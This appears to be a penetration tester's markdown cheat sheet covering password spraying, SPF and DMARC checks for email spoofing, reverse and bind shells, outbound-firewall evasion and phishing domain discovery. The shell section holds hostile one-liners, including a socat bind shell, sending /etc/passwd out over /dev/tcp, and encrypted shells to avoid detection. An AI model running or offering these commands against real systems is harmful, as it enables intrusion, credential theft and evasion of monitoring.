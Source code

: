 - password spraying
    - Company@Year
    - o365spray
    - if found cred, try in vpn


### email
- SPF: identify servers allowed to send emails on behalf of the domain, should be configured with "-all" or use DMARC
    - "~all" can cause softfail, DMARC interprets SPF Softfail as a 'Pass' or 'Fail' depending on its email server settings
- host -t txt example.com

- DMARC policies
- Monitor, also called none policy, is the most basic DMARC policy and specified by “p=none.” The monitor enables monitoring and sends all emails (including failed authentication) to maintain regular traffic flow.
- Quarantine: The quarantine policy is specified by “p=quarantine,” which sends unqualified emails (those that fail authentication) to the recipient’s trash or spam folder. 
- Reject: The Reject policy prevents unqualified emails (those with failed authentication) from reaching their intended recipient. The reject policy, specified by “p=reject”.
- host -t txt _dmarc.example.com
    * https://emkei.cz/
    * ?sendgrid
- https://dmarcreport.com/content/spf-authentication-fails/

## shell
* netcat can be used with metasploit inline payloads
* socat, netcat alternative:
    * socat tcp4-listen:8080 EXEC:/bin/bash
    * socat - tcp4:duck.com:80

* bash native support to reverse shell: /dev/protocol/host/port
    * cat /etc/passwd >/dev/tcp/host/port

* encrypted shell is better to avoid detection
    * ncat has encryption support
    * openssl s_client -connect example.com:443

* upgrading shell
```bash
stty raw -echo
nc -lvp 1234
python -c 'import pty; pty.spawn("/bin/bash")'
```

### techniques against outbound network firewall
* try popular ports (443/tcp, 80/tcp, 53/udp, 22/tcp)
* ipv6
* if rce: 
    - dnscat2
    - write output in a public directory (web server, smb, ...) in the file system
* ?non tcp/udp protocols (icmp)


## phishing
- urlcrazy: look for domains to use in phishing attacks

